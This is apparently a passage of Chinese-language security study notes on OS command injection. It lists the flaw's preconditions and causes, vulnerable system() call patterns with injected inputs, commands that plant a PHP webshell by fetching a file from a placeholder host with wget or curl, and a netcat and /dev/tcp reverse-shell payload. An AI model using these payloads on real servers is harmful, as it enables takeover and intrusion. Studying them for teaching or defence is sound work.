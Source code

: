 		linux:
		ls
		ifconfig
		
	}
	利用条件：
	{
	1.应用调用行系统命令的函数
	2.将用户输入作为系统命令的参数拼接到了命令中
	3.没有对用户输入进行过滤或过滤不严
	}

	漏洞分类：
	{
	1.代码层过滤不严
	　　商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：
	　　system("/bin/program -arg $arg");
	2.系统的漏洞造成命令注入
	　　bash破壳漏洞(CVE-2014-6271)
	3.调用的第三方组件存在代码执行漏洞
	　　如WordPress中用来处理图片的ImageMagick组件
	　　JAVA中的命令执行漏洞（struts2/ElasticsearchGroovy等）ThinkPHP命令执行
	}

	漏洞危害
	{
	1.继承web服务程序的权限去执行系统命令或读写文件
	2.反弹shell
	3.控制整个网站甚至控制服务器
	4.进一步内网渗透等
	}

	漏洞可能代码（以 system为例）
	{
	1.system("$arg"); //直接输入即可
	2.system("/bin/prog $arg"); //直接输入;ls
	3.system("/bin/prog -p $arg"); //和2一样
	4.system("/bin/prog --p=\"$arg\"); //可以输入";ls;"
	5.system("bin/prog --p='$arg'"); //可以输入';ls;'
	}

	获取webshell
	{
	要有写权限！
	1.得到当前或绝对路径（可以用pwd）
	2.写文件：
	　　用?cmd=echo "<?php ohoinfo()?>" > /var/www/html/info.php
	　　或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
	　　或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
	}

	反弹shell
	{
	远程执行:nc -l -p 8888
	访问URL:?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
	}
